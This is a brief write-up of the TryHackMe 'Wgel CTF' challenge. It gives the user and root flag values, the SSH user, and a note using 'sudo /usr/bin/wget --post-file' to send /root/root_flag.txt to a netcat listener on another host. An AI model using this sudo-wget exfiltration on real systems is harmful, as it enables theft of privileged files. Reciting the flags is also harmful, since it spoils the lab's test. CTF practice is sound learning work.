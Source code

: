 #TryHackMe Wgel CTF

>Saikat Karmakar | Feb 12:2021

--------------------------------------------------------------------------

# Task
1. User flag
```
057c67131c3d5e42dd5cd3075b198ff6
```
2. Root flag
```
b1b968b37519ad1daa6408188649263d
```

--
-----------
***Notes***
-----------

ssh 
```
user = jessie
```
```
dump the root flag to the nc listner 
sudo /usr/bin/wget --post-file=/root/root_flag.txt 10.4.23.120:1234
```